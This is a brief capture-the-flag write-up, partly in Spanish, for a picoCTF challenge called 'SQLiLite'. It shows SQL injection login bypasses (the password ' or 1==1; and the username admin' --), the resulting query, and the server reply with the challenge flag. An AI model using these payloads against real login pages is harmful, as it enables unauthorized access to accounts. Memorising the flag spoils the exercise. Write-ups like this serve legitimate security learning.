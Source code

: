 # SQLiLite

## Objetivos
Can you login to this website?


## Solución 
```bash
SELECT * FROM users WHERE name='admin' AND password='' or 1==1;'

```
``` php
<pre>username: admin
password: &#039; or 1==1;
SQL query: SELECT * FROM users WHERE name=&#039;admin&#039; AND password=&#039;&#039; or 1==1;&#039;
</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}</p>

```

## Notas adicionales 
ponemos como contraseña: ` ' or 1==1;' `
y listo nos podemos logear

otra forma sería logearnos como user name = admin' --